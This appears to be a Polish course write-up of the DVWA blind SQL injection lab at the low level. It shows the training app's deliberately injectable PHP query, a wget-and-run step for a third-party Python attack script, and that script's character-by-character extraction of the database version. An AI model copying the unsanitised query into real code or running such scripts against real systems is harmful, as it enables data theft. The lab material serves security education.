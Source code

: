 # SQLi (blind) - SQL injection (blind)
## Opis techniki
<blockquote> Ślepe wstrzyknięcie SQL jest identyczne z normalnym wstrzyknięciem SQL, z wyjątkiem tego, że gdy atakujący próbuje wykorzystać aplikację, zamiast otrzymać użyteczny komunikat o błędzie otrzymuje generyczną stronę określoną przez programistę. Sprawia to, że wykorzystanie ataku SQL Injection jest trudniejsze, ale nie niemożliwe. Atakujący nadal może wykraść dane, zadając serię pytań za pomocą instrukcji SQL i monitorując odpowiedź aplikacji internetowej (na przykład zwrócona prawidłowa wartość lub nagłówek 404).
</blockquote>

## DVWA labs

- [DVWA SQLi (blind) #1 - Low](#dvwa-sqli-blind-1---low)

Powtórzenie podanych przykładów wymaga zmiany adresu IP oraz tokenu sesji.

<br/>

## DVWA SQLi (blind) #1 - low
Cel: uzyskanie wersji bazy danych.

Interakcja z bazą danych pozwala na uzyskanie informacji o istnieniu danego rekordu:
![image](https://github.com/249064/CBE-BAW-2023/assets/133172137/ca1a1559-0152-49e0-9748-5770d53a623c)

bądź jego braku:

![image](https://github.com/249064/CBE-BAW-2023/assets/133172137/71369322-56b4-4d9e-9178-49f5f2c04d0a)

Na poziomie niskim zapytanie SQL wykorzystuje surowe dane wejściowe, które są bezpośrednio kontrolowane przez atakującego. Jedyne co trzeba zrobić, to uciec z zapytania, a następnie wykonać dowolne zapytanie SQL.

#### Kod źródłowy `PHP` 

```php

<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
Do enumeracji kolejnych pozycji nazwy bazy danych wykorzystany został skrypt python przygotowany przez Crypto-Cat.

#### Komenda `bash` 

```bash
wget https://raw.githubusercontent.com/Crypto-Cat/CTF/main/web/DVWA/8-sqli.py
python3 8-sqli.py

[...]

[*] Found char(1): 5
[*] Found char(2): .
[*] Found char(3): 5
[*] Found char(4): .
[*] Found char(5): 6
[*] Found char(6): 1
[*] Found char(7): -
[*] Found char(8): 0
[*] Found char(9): u
[*] Found char(10): b
[*] Found char(11): u
[*] Found char(12): n
[*] Found char(13): t
[*] Found char(14): u
[*] Found char(15): 0
[*] Found char(16): .
[*] Found char(17): 1
[*] Found char(18): 4
[*] Found char(19): .
[*] Found char(20): 0
[*] Found char(21): 4
[*] Found char(22): .
[*] Found char(23): 1
[+] DB Version: 5.5.61-0ubuntu0.14.04.1
```

Otrzymaną wartość można wykorzystać do znalezienia znanych podatności bazy danych.
<br/>

<br/>
<br/>



<br/>
